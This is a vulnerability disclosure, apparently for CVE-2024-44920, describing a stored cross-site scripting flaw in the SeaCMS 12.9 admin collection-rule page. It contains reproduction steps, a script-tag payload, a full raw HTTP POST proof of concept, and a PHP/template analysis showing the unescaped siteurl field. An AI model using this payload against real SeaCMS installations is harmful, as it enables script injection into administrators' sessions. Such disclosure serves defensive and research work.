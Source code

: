 CVE-2024-44920

seacms12.9 admin_collect_news.php storage xss

Visit admin_collect_news.php

Enter the following page

![image-20240821010940757](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821010940757.png)

Click to add collection items, then click Next

![image-20240821011038657](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011038657.png)

Enter the target site URL

`<script>alert(2)</script>`

![image-20240821011104414](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011104414.png)

Click to save the information and proceed to the next step of settings.

![](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821011136585.png)

Success pop-up window

POC

```java
POST /p8qca/admin_collect_news.php?action=addrule HTTP/1.1
Host: seacms:8181
Content-Length: 335
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/admin_collect_news.php?action=addrule&id=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Connection: keep-alive

step=2&id=5&itemname=111&intodatabase=0&siteurl=%3Cscript%3Ealert%282%29%3C%2Fscript%3E&coding=gb2312&playfrom=seacms&downfrom=&autocls=0&classid=0&inithit=0&pageset=0&pageurl0=123123&pageurl1=&istart=1&iend=1&pageurl2=&Submit=%E4%BF%9D%E5%AD%98%E4%BF%A1%E6%81%AF%E5%B9%B6%E8%BF%9B%E5%85%A5%E4%B8%8B%E4%B8%80%E6%AD%A5%E8%AE%BE%E7%BD%AE
```



**code analysis**

```java
if($action=="addrule")
{
	if($step==2){
		if(empty($itemname))
		{
			ShowMsg("请填写采集名称！","-1");
			exit();
		}
		$removecode = implode('|',$removecode);
		$listconfig = "{seacms:listrule cid=\"$id\" tname=\"$itemname\" intodatabase=\"$intodatabase\" isupdate=\"$isupdate\" getherday=\"$getherday\" siteurl=\"$siteurl\" playfrom=\"$playfrom\" autocls=\"$autocls\" classid=\"$classid\" removecode=\"$removecode\" inithit=\"$inithit\" pageset=\"$pageset\" pageurl0=\"$pageurl0\" pageurl1=\"$pageurl1\" istart=\"$istart\" iend=\"$iend\" reverse=\"$reverse\"}";
		include(sea_ADMIN.'/templets/admin_collect_ruleadd2.htm');
		exit();
	}elseif($step==test){
		$listconfig = urldecode($listconfig);
		$listconfig.="
			{seacms:pageurl2}$pageurl2{/seacms:pageurl2}
			{seacms:lista}$lista{/seacms:lista}
			{seacms:listb}$listb{/seacms:listb}
			{seacms:mlinka}$mlinka{/seacms:mlinka}
			{seacms:mlinkb}$mlinkb{/seacms:mlinkb}
			{seacms:picmode}$picmode{/seacms:picmode}
			{seacms:pica}$pica{/seacms:pica}
			{seacms:picb}$picb{/seacms:picb}
			{seacms:pic_trim}$pic_trim{/seacms:pic_trim}
{/seacms:listrule}\r\n";
		$tmplistconfig = stripslashes($listconfig);
		$links=array();
		$links = Testlists($tmplistconfig,$coding,$sock);
		include(sea_ADMIN.'/templets/admin_collect_ruleadd2test.htm');
		exit();
```

我们可以控制$pageurl2的值，而且包含了/templets/admin_collect_ruleadd2test.htm文件，来到这个文件

```php
<form name="addruleform" id="addruleform" method="post" action="?action=addrule">
  <input type='hidden' name='step' value='test' />
  <input type="hidden" name="id" value="<?php echo $id;?>" />
  <input type="hidden" name="itemname" value="<?php echo $itemname;?>" />
  <input type="hidden" name="siteurl" value="<?php echo $siteurl;?>" />
  <input type="hidden" name="coding" value="<?php echo $coding;?>" />
  <input type="hidden" name="sock" value="<?php echo $sock;?>" />
  <input type="hidden" name="playfrom" value="<?php echo $playfrom;?>" />
  <input type="hidden" name="autocls" value="<?php echo $autocls;?>" />
  <input type="hidden" name="classid" value="<?php echo $classid;?>" />
  <input type="hidden" name="getherday" value="<?php echo $getherday;?>" />
  <input type='hidden' name="intodatabase" value="<?php echo $intodatabase;?>" />
  <input type='hidden' name="listconfig" value="<?php echo urlencode($listconfig);?>" />
  <table class="tb2" id="step2">
```

You can see that our $siteurl is output and stored in the database, resulting in stored xss
